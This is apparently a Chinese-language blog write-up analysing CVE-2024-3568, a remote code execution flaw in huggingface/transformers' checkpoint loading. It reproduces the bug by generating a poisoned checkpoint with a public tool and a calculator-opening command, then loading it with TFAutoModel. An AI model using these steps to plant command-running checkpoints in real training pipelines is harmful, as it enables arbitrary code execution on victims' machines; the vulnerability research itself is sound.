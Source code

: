 # huggingface/transformers RCE漏洞分析（CVE-2024-3568）

# 一、缘起

刚开始研究大模型安全的时候就看到`huggingface/transformers`有这个`load_repo_checkpoint`的漏洞，不过当时看到说是利用起来比较困难就没有再深入研究（世上无难事，只要肯放弃），直到周五（2024-10-18）的时候，看到各个技术群里都在转发字节跳动实习生对大模型投毒的聊天记录，故事情节相当精彩刺激，后来在知乎热榜上也看到出现非常多的讨论，有兴趣的读者可自行吃瓜：

[《字节跳动大模型训练被实习生恶意注入破坏代码，涉事者已被辞退，攻击带来的影响有多大？暴露出哪些问题？ - 知乎》](https://www.zhihu.com/question/1296528119)

既然这个漏洞都已经能够在实际环境中产生危害了，感觉是有必要深入了解分析一下了。

# 二、漏洞复现

前置条件：

- 安装的是4.38.0或之前的`transformer`，因为在这之后修复了

  - ```
    pip install transformers==4.37.2
    pip install tensorflow
    ```

借助这个工具来进行漏洞复现：

```
https://github.com/llm-sec/transformer-hacker
```

先生成一个带`checkpoint`的文件夹，执行的命令是`Mac`下的打开计算器命令：

```bash
python main.py --directory ./rce-checkpoint --model bert-base-uncased --command 'open /System/Applications/Calculator.app'
```

![image-20241020130104077](./README.assets/image-20241020130104077.png)

生成好了payload之后，然后执行下面的代码，用这段代码来模拟模型训练加载`checkpoint`的过程，在里面尝试加载生成的带有命令执行的`checkpoint`的仓库文件夹：

```python
from tensorflow.keras.optimizers import Adam
from transformers import TFAutoModel

# 这个模型还是有些大的，下载可能会花一些时间...
# https://huggingface.co/google-bert/bert-base-uncased/tree/main
model = TFAutoModel.from_pretrained('bert-base-uncased')
model.compile(optimizer=Adam(learning_rate=5e-5), loss='sparse_categorical_crossentropy', metrics=['accuracy'])

# 把参数修改为checkpoint所在的仓库的路径
model.load_repo_checkpoint('test_repo')
```
